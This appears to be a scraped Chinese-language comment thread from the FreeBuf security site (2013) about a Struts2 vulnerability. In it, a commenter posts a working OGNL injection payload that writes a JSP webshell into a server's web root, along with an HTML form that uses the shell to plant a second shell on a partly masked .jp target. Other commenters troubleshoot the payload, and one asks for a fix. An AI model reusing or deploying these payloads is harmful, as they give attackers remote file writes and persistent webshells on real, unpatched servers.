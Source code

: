 [亮了]()(4)
[回复](http://www.freebuf.com/vuls/?replytocom=13034#respond)

* ![]() apo []() 2013-07-18

@coffee 我来个写shell的吧,当前目录生成test.jsp

?redirect:${
%23req%3d%23context.get(‘com.opensymphony.xwork2.dispatcher.HttpServletRequest’),
%23p%3d(%23req.getRealPath(%22/%22)%2b%22test.jsp%22).replaceAll("\\\\", "/"),
new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()
}&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e

然后用以下代码写shell:
<form action="[http://www.***.jp/acdap/test.jsp?f=1.jsp&quot](http://www.***.jp/acdap/test.jsp?f=1.jsp"); method="post">
<textarea name=t>code</textarea>
<input type=submit value="提交">
</form>
上前目录生成1.jsp

少了一个name=t <textarea name=t>code</textarea>
[亮了]()(2)
[回复](http://www.freebuf.com/vuls/?replytocom=13041#respond)

* ![]() window []() 2013-07-18

@apo 能生存test.jsp不能生成1.jsp啊！
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13042#respond)
* ![]() apo []() 2013-07-18

@window <form action="[http://www.***.jp/acdap/test.jsp?f=1.jsp&quot](http://www.***.jp/acdap/test.jsp?f=1.jsp"); method="post"

楼主好像估计弄错两个地方。

这样就可以了。
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13044#respond)
* ![]() window []() 2013-07-18

@apo 还是不能 ，
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13087#respond)
* ![]() apo []() 2013-07-19

@window
那我就没办法了。补补HTML知识。。
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13094#respond)
* ![]() tianya []() 2013-07-18    28楼

就木有人发如何修复么？？？？？？？？？？？？？？？？？？？？？？？
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13036#respond)
* ![]() sudnog []() 2013-07-18    29楼
